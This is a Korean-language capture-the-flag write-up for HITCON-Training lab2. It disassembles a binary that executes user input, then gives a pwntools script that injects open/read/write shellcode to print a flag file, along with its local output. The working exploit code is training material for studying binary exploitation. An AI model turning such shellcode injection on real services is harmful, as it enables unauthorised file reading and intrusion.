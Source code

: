 lab2
=====
pwntool의 shellcraft를 이용하여 해결하라는 문제이다.

```
Dump of assembler code for function main:
   0x08048548 <+0>:	lea    ecx,[esp+0x4]
   0x0804854c <+4>:	and    esp,0xfffffff0
   0x0804854f <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048552 <+10>:	push   ebp
   0x08048553 <+11>:	mov    ebp,esp
   0x08048555 <+13>:	push   ecx
   0x08048556 <+14>:	sub    esp,0x4
   0x08048559 <+17>:	call   0x80484cb <orw_seccomp>
   0x0804855e <+22>:	sub    esp,0xc
   0x08048561 <+25>:	push   0x80486a0
   0x08048566 <+30>:	call   0x8048380 <printf@plt>
   0x0804856b <+35>:	add    esp,0x10
   0x0804856e <+38>:	sub    esp,0x4
   0x08048571 <+41>:	push   0xc8
   0x08048576 <+46>:	push   0x804a060
   0x0804857b <+51>:	push   0x0
   0x0804857d <+53>:	call   0x8048370 <read@plt>
   0x08048582 <+58>:	add    esp,0x10
   0x08048585 <+61>:	mov    eax,0x804a060
   0x0804858a <+66>:	call   eax
   0x0804858c <+68>:	mov    eax,0x0
   0x08048591 <+73>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048594 <+76>:	leave  
   0x08048595 <+77>:	lea    esp,[ecx-0x4]
   0x08048598 <+80>:	ret    
End of assembler dump.
```
먼저 `orw.bin`파일을 열어 main함수를 살펴보았고 read함수로 들어온 내용을 main+66에서 실행한다는 것을 알 수 있었다.
즉 read함수로 내용을 입력받을때 쉘 코드를 넣어주면 된다는 것을 확인 할 수 있었다.


따라서 flag라는 파일을 생성하고 `hello boy`라는 문구를 넣었다.
그리고 shellcraft를 이용하여 아래와 같은 코드를 작성하였다.
```
from pwn import*

s = process("./orw.bin")

context(arch='i386',os='linux')

shellcode = ''
shellcode += shellcraft.pushstr('flag')
shellcode += shellcraft.open('esp',0,0)
shellcode += shellcraft.read('eax','esp',100)
shellcode += shellcraft.write(1,'esp',100)

s.recvuntil('Give my your shellcode:')
s.send(asm(shellcode))
print(s.recvline())
```
위 코드를 실행하면 `orw.bin`을 통해 flag파일 안의 내용을 읽어서 출력을 할 수 있다.

결과는 다음과 같다.
```
root@kali:~/HITCON-Training/LAB/lab2# python solv.py
[+] Starting local process './orw.bin': pid 36134
hello boy

[*] Stopped process './orw.bin' (pid 36134)
```
